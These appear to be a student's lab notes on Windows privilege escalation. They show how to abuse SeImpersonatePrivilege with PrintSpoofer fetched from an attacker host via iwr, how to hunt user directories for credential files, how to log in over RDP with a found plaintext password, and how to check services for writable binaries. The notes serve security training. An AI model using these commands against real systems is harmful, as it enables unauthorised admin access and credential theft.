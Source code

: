 ### Using exploits
- look for installed applications - if these run with admin rights and we can get RCE, we can elevate our privileges
- windows kernel vulnerabilities - this is much more advanced and can easily crash a system
- abuse certain privs - such as SeImpersonatePrivilege - to get privesc
- can use named pipes to impersonate clients (doesn't have to be same machine)

```
nc 192.168.234.220 4444
whoami /priv # has SeImpersonatePrivilege
```

on kali download and serve printSpoofer (to connect to a controlled named pipe)
- alternatives are potato tools
```
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe 
```

import onto target
```
powershell
iwr -uri http://192.168.45.219/PrintSpoofer64.exe -Outfile PrintSpoofer64.exe
```

run it passing a command with -c to use the named pipe and gain admin privileges (-i = interact in prompt)
```
.\PrintSpoofer64.exe -i -c powershell.exe
```

### VM 2
```
nc 192.168.234.222 4444
```

look for users/passwords in text files of user dir
```
Get-ChildItem -Path C:\Users -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
xfreerdp /u:alex /p:WelcomeToWinter0121 /v:192.168.234.222 /w:1200 /h:700
```

check running services for write perms
```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
icacls C:\Services\EnterpriseService.exe
```

random commands to get process info
```
Get-CimInstance -ClassName win32_service | Where-Object {$_.Name -like 'EnterpriseService'}
Get-Process -IncludeUserName | Where ProcessName -EQ 'EnterpriseService' | Select-Object -Property Name, Username
Get-Process | Where ProcessName -EQ 'EnterpriseService'
Get-Service EnterpriseService | fl *
Get-Acl EnterpriseService.exe | Select-Object Owner
```
